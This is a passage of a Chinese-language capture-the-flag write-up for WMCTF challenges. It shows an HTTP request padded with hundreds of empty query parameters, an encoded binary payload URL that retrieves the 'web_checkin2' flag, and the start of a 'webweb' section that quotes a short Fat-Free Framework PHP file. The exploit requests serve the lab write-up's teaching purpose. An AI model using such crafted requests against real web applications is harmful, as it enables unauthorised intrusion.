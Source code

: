 ```
vL=&vM=&vN=&vO=&vP=&vQ=&vR=&vS=&vT=&vU=&vV=&vW=&vX=&vY=&vZ=&v0=&v1=&v2=&v3=&v4=&v5=&v6=&v7=&v8=&v9=&wa=&wb=&wc=&wd=&we=&wf=&wg=&wh=&wi=&wj=&wk=&wl=&wm=&wn=&wo=&wp=&wq=&wr=&ws=&wt=&wu=&wv=&ww=&wx=&wy=&wz=&wA=&wB=&wC=&wD=&wE=&wF=&wG=&wH=&wI=&wJ=&wK=&wL=&wM=&wN=&wO=&wP=&wQ=&wR=&wS=&wT=&wU=&wV=&wW=&wX=&wY=&wZ=&w0=&w1=&w2=&w3=&w4=&w5=&w6=&w7=&w8=&w9=&xa=&xb=&xc=&xd=&xe=&xf=&xg=&xh=&xi=&xj=&xk=&xl=&xm=&xn=&xo=&xp=&xq=&xr=&xs=&xt=&xu=&xv=&xw=&xx=&xy=&xz=&xA=&xB=&xC=&xD=&xE=&xF=&xG=&xH=&xI=&xJ=&xK=&xL=&xM=&xN=&xO=&xP=&xQ=&xR=&xS=&xT=&xU=&xV=&xW=&xX=&xY=&xZ=&x0=&x1=&x2=&x3=&x4=&x5=&x6=&x7=&x8=&x9=&ya=&yb=&yc=&yd=&ye=&yf=&yg=&yh=&yi=&yj=&yk=&yl=&ym=&yn=&yo=&yp=&yq=&yr=&ys=&yt=&yu=&yv=&yw=&yx=&yy=&yz=&yA=&yB=&yC=&yD=&yE=&yF=&yG=&yH=&yI=&yJ=&yK=&yL=&yM=&yN=&yO=&yP=&yQ=&yR=&yS=&yT=&yU=&yV=&yW=&yX=&yY=&yZ=&y0=&y1=&y2=&y3=&y4=&y5=&y6=&y7=&y8=&y9=&za=&zb=&zc=&zd=&ze=&zf=&zg=&zh=&zi=&zj=&zk=&zl=&zm=&zn=&zo=&zp=&zq=&zr=&zs=&zt=&zu=&zv=&zw=&zx=&zy=&zz=&zA=&zB=&zC=&zD=&zE=&zF=&zG=&zH=&zI=&zJ=&zK=&zL=&zM=&zN=&zO=&zP=&zQ=&zR=&zS=&zT=&zU=&zV=&zW=&zX=&zY=&zZ=&z0=&z1=&z2=&z3=&z4=&z5=&z6=&z7=&z8=&z9=&Aa=&Ab=&Ac=&Ad=&Ae=&Af=&Ag=&Ah=&Ai=&Aj=&Ak=&Al=&Am=&An=&Ao=&Ap=&Aq=&Ar=&As=&At=&Au=&Av=&Aw=&Ax=&Ay=&Az=&AA=&AB=&AC=&AD=&AE=&AF=&AG=&AH=&AI=&AJ=&AK=&AL=&AM=&AN=&AO=&AP=&AQ=&AR=&AS=&AT=&AU=&AV=&AW=&AX=&AY=&AZ=&A0=&A1=&A2=&A3=&A4=&A5=&A6=&A7=&A8=&A9=&Ba=&Bb=&Bc=&Bd=&Be=&Bf=&Bg=&Bh=&Bi=&Bj=&Bk=&Bl=&Bm=&Bn=&Bo=&Bp=&Bq=&Br=&Bs=&Bt=&Bu=&Bv=&Bw=&Bx=&By=&Bz=&BA=&BB=&BC=&BD=&BE=&BF=&BG=&BH=&BI=&BJ=&BK=&BL=&BM=&BN=&BO=&BP=&BQ=&BR=&BS=&BT=&BU=&BV=&BW=&BX=&BY=&BZ=&B0=&B1=&B2=&B3=&B4=&B5=&B6=&B7=&B8=&B9=&Ca=&Cb=&Cc=&Cd=&Ce=&Cf=&Cg=&Ch=&Ci=&Cj=&Ck=&Cl=&Cm=&Cn=&Co=&Cp=&Cq=&Cr=&Cs=&Ct=&Cu=&Cv=&Cw=&Cx=&Cy=&Cz=&CA=&CB=&CC=&CD=&CE=&CF=&CG=&CH=&CI=&CJ=&CK=&CL=&CM=&CN=&CO=&CP=&CQ=&CR=&CS=&CT=&CU=&CV=&CW=&CX=&CY=&CZ=&C0=&C1=&C2=&C3=&C4=&C5=&C6=&C7=&C8=&C9=&Da=&Db=&Dc=&Dd=&De=&Df=&Dg=&Dh=&Di=&Dj=&Dk=&Dl=&Dm=&Dn=&Do=&Dp=&Dq=&Dr=&Ds=&Dt=&Du=&Dv=&Dw=&Dx=&Dy=&Dz=&DA=&DB=&DC=&DD=&DE=&DF=&DG=&DH=&DI=&DJ=&DK=&DL=&DM=&DN=&DO=&DP=&DQ=&DR=&DS=&DT=&DU=&DV=&DW=&DX=&DY=&DZ=&D0=&D1=&D2=&D3=&D4=&D5=&D6=&D7=&D8=&D9=&Ea=&Eb=&Ec=&Ed=&Ee=&Ef=&Eg=&Eh=&Ei=&Ej=&Ek=&El=&Em=&En=&Eo=&Ep=&Eq=&Er=&Es=&Et=&Eu=&Ev=&Ew=&Ex=&Ey=&Ez=&EA=&EB=&EC=&ED=&EE=&EF=&EG=&EH=&EI=&EJ=&EK=&EL=&EM=&EN= HTTP/1.1
Host: web_checkin2.wmctf.wetolink.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close


```

测试发现，就如我们猜想的一样。

访问`http://web_checkin2.wmctf.wetolink.com/?content=1%09%0Fc%9DCm0%A3.%A0%FBq%2BS%82%1FQ%28d%8D%1C%07b8%9C%A0%FB%0An`
拿到flag:`WMCTF{3C5E9715-5BEE-4D33-8627-DE10E5D92715}`

## webweb

这题本地测试成功远程不行，不知道为啥，静等其他人的wp

代码很简单：

```php
<?php

// Kickstart the framework
$f3=require('lib/base.php');

$f3->set('DEBUG',1);
if ((float)PCRE_VERSION<8.0)
	trigger_error('PCRE version is out of date');

// Load configuration
$f3->config('config.ini');

$f3->route('GET /',
	function($f3) {
		echo "just get me a,don't do anything else";
	}
);
```